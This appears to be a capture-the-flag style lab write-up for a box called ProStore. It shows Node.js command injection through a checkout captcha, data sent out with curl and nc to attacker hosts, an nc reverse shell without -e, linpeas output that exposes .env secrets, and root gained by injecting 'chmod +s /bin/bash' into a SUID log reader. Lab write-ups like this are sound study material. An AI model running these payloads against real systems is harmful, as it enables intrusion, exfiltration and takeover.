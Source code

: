 # ProStore

We start off by scanning network:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On port 500 we find this website:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I try to log in as admin with admin:admin

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Interesting error message maybe we can enumerate usernames by bruteforcing

But first i register and login with admin:admin and i add an item to my cart and go to checkout:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is a pretty obvious foothold direction so i enter everything and capture the request with burp:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The only error i manage to pop is when i input a string in the captcha:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So while looking up at the error:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that it treats our input as code and does not find the variable so i need a way to call a function that is defined:

{% embed url="https://www.nodejs-security.com/blog/secure-javascript-coding-practices-against-command-injection-vulnerabilities" %}

so `child_process.exec` seems very unsecure since it does not avoid shell interpretation of arguments. Maybe we can exploit that by calling exec. Since this box is out of scope for OSCP i ask GPT, my bad skill issue

```
require('child_process').exec("whoami | curl -X POST -d @- http://ton-webhook.com");
```

Ok so i got stuck here for a bit, the webserver only allows requests on port 80:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('nc+192.168.49.59+80')</p></figcaption></figure>

The requests work on port 80 and 443 but is blocked anywhere else, after looking it up the target system or its network might have outbound filtering that **only allows traffic on ports 80 and 443**.

So now i am able to pipe the command injection to have some interesting output on my listener:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('cat+/etc/passwd|nc+192.168.49.59+443')</p></figcaption></figure>

Then i tried a basic reverse shell but got no response so obvious reason is that -e is blocked so i tried finding a `nc -e` bypass:

{% embed url="https://www.keuperict.nl/posts/security/2017/08/26/netcat-without-e/" %}

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

and the redirect busted my command so the final payload i injected was:

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('tail+-n+0+-f+/tmp/1+|+/bin/sh|+nc+-nv+192.168.49.59+443+1>+/tmp/1')</p></figcaption></figure>

Now i try and download linpeas

{% hint style="warning" %}
firewall blacklists connectiosn from ports ≠ 80 or 443 so i host my python server on port 80
{% endhint %}

So after running linpeas here is everything i found that seemed interesting for PE:

```sh
???????????? Searching root files in home dirs (limit 30)
/home/                                                                                                                                                                              
/home/observer/.bash_history
/root/


-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/write.ul (Unknown SGID binary)

-rwsr-xr-x 1 root root 20K Feb 13  2023 /usr/local/bin/log_reader (Unknown SUID binary!)

??? Possible private SSH keys were found!
/home/observer/app/backend/node_modules/dotenv/README.md


???????????? Analyzing Env Files (limit 70)
-rw-r--r-- 1 observer observer 247 Dec 23  2022 /home/observer/app/backend/.env                                                                                                     
APP_PORT=5000
DB_HOSTNAME="127.0.0.1"
DB_NAME="prostore_db"
DB_PASSWORD="d8491f5ddd9137cc3630a8a054b01cdf71110a62"
DB_PORT=5432
DB_USER="prostore"
JWT_SECRET="d148c461e7241a2c94727e17fa70b90f"
PASSWORD_HASH_SALT="a008e3dc8f8ec8a0a6e485b890d74d91"
```

I cleared most of the find except the write.ul and log reader:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

and for the log reader:

<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i try to test what i can do with  this log reader:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

it does not seem to do anything :skull:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

ok we're getting somewhere!!!

<figure><img src="../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

So it only reads log file... How could i guess that...

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Ok we are starting to have interesting errors:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

LETSGOOOOOOOOO

yeah so that was the easy way but it's interesting to try and get a shell since we can run command injections as root:

In this box i did something that i think i can abuse now:

{% content-ref url="../linux/rubydome.md" %}
[rubydome.md](../linux/rubydome.md)
{% endcontent-ref %}

```
/usr/local/bin/log_reader 'test.log|chmod +s /bin/bash'
```

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

My first beyond root

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
